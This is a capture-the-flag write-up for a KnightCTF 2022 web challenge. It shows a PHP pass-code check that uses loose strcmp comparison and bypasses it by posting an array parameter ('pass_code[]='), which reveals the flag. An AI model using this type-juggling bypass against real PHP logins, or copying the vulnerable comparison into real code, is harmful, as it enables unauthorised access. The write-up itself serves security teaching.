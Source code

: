 # challenge Description

Challenge Link : http://find-pass-code-one.kshackzone.com/

Flag Format : KCTF{something_here}

Note : Burte Force/Fuzzing not required and not allowed.

**Author: NomanProdhan**

-----------------------------------------------------------

in this webpage we get a Pass Code validation input
looking through the source code we find a comment :

> Hi Serafin, I learned something new today. I build this website for you to verify our KnightCTF 2022 pass code. You can view the source code by sending the **source** param 

So we need to send a source param

> https://find-pass-code-one.kshackzone.com/?source=

**NOTE**: doesnt matter what u put in the "source" param because it's a dummy param just to view the source code 
in this page we find the php source code :


" <?php
require "flag.php";

if (isset($_POST["pass_code"])) {

    if (strcmp($_POST["pass_code"], $flag) == 0 ) {

        echo "KCTF Flag : {$flag}";

    } else {

        echo "Oh....My....God. You entered the wrong pass code.<br>";

    }

}

if (isset($_GET["source"])) {

    print show_source(__FILE__);

}

?> "


Looking through the php manual about strcmp we can see it's vulnerable to a bypass if not used properly 
to put it simply it doesn't matter what is the pass_code or the flag as long as their strcmp gets us a 0 ! so we just need something to return "NULL" 

**NOTE** : NULL == 0 in php

==> Arrays !

Sending a post request using BurpSuite 

> pass_code[]=

And we get our flag ! 

> KCTF Flag : KCTF{ShOuLd_We_UsE_sTrCmP_lIkE_tHaT}
